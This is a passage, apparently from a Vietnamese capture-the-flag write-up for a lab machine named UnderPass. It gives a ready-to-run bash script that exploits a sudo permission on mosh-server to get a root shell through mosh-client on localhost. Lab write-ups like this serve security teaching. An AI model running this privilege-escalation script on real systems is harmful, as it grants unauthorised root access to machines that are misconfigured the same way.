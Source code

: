Để tiện hơn, tôi sẽ tạo một mã khai thác tự động, bạn chỉ cần coppy nó vào `root.sh` sau đó:

```zsh
chmod +x root.sh
./root.sh
```

Mã khai thác cho `root.sh`:

```bash
#!/bin/bash
echo "ENJOYYYY!"
sleep 2
result=$(sudo /usr/bin/mosh-server | sed -n '3p')
read port key <<< $(echo "$result" | awk '{print $3, $4}')
export MOSH_KEY=$key
mosh-client -# "/bin/bash" 127.0.0.1 $port
```

![UnderPass/images/6.png](UnderPass/images/6.png)
